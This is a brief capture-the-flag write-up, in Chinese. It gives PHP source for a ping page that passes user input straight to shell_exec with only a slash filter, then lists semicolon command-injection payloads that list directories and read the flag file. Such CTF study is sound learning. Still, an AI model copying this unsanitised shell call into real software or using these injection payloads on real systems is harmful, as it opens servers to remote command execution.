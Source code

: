 ```php
<html>                                                                                                           
    <body>
        <form action="" method="get">
            <input type="text" name='ip' />
            <input type="submit" name="submit" value="提交">
<?php
$res = FALSE;
if (isset($_GET['submit'])){
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/\//", $ip, $m)){
        $cmd = shell_exec( 'ping  -c 4 ' . $ip );
        echo $cmd;
    }
}
?>
        </form>
    </body>
</html>
```
- 这题过滤了目录分隔符
  - payload:
    - 先看看目录下有什么127.0.0.1;ls  发现目录下有一个名为flag_is_here的目录
    - 然后看看flag_is_here目录里面有什么 127.0.0.1;ls flag_is_here
    - 有flag，但是不在当前目录下，所以切换目录就行了 127.0.0.1;cd flag_is_here;cat flag_160862057427113.php
